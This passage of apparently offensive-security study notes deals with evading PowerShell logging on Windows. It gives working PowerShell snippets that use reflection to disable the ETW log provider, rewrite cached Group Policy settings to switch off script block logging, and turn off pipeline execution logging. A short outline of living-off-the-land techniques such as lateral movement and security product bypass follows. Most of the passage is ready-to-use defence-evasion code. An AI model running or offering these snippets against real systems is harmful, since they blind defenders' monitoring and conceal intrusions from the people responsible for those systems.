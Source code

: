 - **Reflection - (1)**
```
# obtain .net assembly for PSEtwLogProvider
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')

# store null value for etwProvider
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)

# set field m_enabled do previous sotred value
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

 **Group Policy Takeover**
```
# Reflection to obtaim SM and identify GPO
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)

# modify event provider to 4104 to 0  
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0

# 4103
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

- **Disable Logging in ps session**
  - Append to script OR execute in session
  - Avoid sending logs to the pipeline

```
# Get target module
$module = Get-Module Microsoft.PowerShell.Utility 

# module execution details = false
$module.LogPipelineExecutionDetails = $false

# Get target ps-snapin
$snap = Get-PSSnapin Microsoft.PowerShell.Core

# Set ps-snapin execution details to false
$snap.LogPipelineExecutionDetails = $false
```

## Living Off the Land
- Using and abusing of what exists
- How
  - Reconnaissance
  - Files operations
  - Arbitrary code execution
  - Lateral movement
  - Security product bypass
